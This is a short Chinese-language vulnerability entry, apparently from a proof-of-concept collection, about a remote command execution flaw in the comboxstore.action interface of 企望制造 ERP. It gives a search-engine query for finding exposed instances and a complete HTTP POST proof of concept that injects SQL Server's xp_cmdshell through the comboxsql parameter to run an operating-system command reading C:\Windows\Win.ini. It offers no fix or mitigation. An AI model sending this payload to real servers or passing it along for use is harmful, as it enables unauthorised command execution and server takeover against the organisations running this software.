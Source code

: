 # 企望制造 ERP comboxstore.action 远程命令执行漏洞

# 企望制造 ERP comboxstore.action 远程命令执行漏洞

## 漏洞描述

企望制造 ERP comboxstore.action接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

企望制造 ERP

## 网络测绘

```
title="企望制造ERP系统"
```

## 漏洞复现

登陆页面

![image-20230828150159555](images/image-20230828150159555.png)

验证POC

```
POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

comboxsql=exec%20xp_cmdshell%20'type%20C:\Windows\Win.ini'
```

![image-20230828150215433](images/image-20230828150215433.png)

